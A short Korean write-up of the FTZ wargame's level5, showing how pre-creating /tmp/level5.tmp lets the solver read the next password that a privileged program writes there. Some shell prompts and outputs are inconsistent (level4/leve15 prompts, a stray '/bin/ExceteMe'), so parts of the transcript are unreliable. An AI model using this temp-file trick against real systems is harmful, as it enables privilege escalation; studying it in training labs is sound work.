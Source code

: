 ## level5

#### 실행

``` //
[level5@ftz levl5]$ cat hint // hint 파일의 내용을 화면에 출력한다.
```

#### 결과

```
/usr/bin/level5 프로그램은 /tmp 디렉토리에
level5.tmp 라는 이름의 임시파일을 생성한다.

이를 이용하여 level6의 권한을 얻어라.
```

--------

#### 실행

```
[leve15@ftz level5]$ cd /tmp // 경로로 현재 위치를 변경한다.
```

#### 결과

```/bin/ExceteMe
[leve15@ftz tmp]$
```

---------

#### 실행

```
[level5@ftz tmp]$ cat > level5.tmp
something (ctrl + d)
// level5.tmp 파일을 만들어 something을 쓴다.
```

#### 결과

```
[level5@ftz tmp]$
```

-------------------

#### 실행

```
[level5@ftz tmp]$ cd /usr/bin
[level5@ftz bin]$ ./level5
```

#### 결과

```
[level4@ftz bin]$
```

----------------

#### 실행

```
[level4@ftz bin]$ cd /tmp
[level5@ftz tmp]$ cat level5.tmp
```

/usr/bin/level5는 임시 파일이 없을 경우 생성하지만, 이미 임시 파일이 있으므로 덮어쓰기한다.

덮어쓰기 후 임시파일을 삭제하려고 하였으나, 파일의 권한이 level5이므로 level6권한인 /usr/bin/level5에서 삭제하지 못하고 종료된다.

#### 결과

```
next password : what the hell
```

